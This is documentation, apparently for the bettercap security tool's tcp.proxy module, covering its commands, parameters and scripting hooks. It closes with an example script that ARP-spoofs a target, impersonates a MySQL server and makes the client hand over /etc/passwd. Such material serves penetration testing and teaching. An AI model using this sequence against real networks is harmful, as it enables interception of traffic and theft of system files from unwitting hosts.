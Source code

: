 ```yaml
---
title: "tcp.proxy"
date: 2019-02-25T13:18:06+01:00
draft: false
weight: 3
---
```


A TCP transparent proxy that can be scripted using javascript modules. If used together with a spoofer, all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

| command | description |
|---------|-------------|
| `tcp.proxy on` | Start the TCP proxy. |
| `tcp.proxy off` | Stop the TCP proxy. |

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `tcp.port` | `443` | TCP port to redirect when the proxy is activated. |
| `tcp.address` |  | **Mandatory** remote address of the TCP proxy. |
| `tcp.proxy.port` | `8443` | Port to bind the TCP proxy to. |
| `tcp.proxy.address` | `<interface address>` | Address to bind the TCP proxy to. |
| `tcp.proxy.script` | | Path of a proxy module script. |
| `tcp.tunnel.address` | | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port` | | Port to redirect the TCP tunnel to (optional) |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {

}

// called when data is available
// return an array of bytes to override "data"
function onData(from, to, data) {

}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

Modules can use the following builtin functions.

| function | description |
|----------|-------------|
| `readFile("/path/to/file")` | Return the contents of a file as a string. |
| `log("message")` | Log a message in the interactive session (its level will be `INFO`). |
| `env("iface.ipv4")` | Read a variable. |
| `env("foo", "bar")` | Set a variable. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a rogue server.

```sh
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
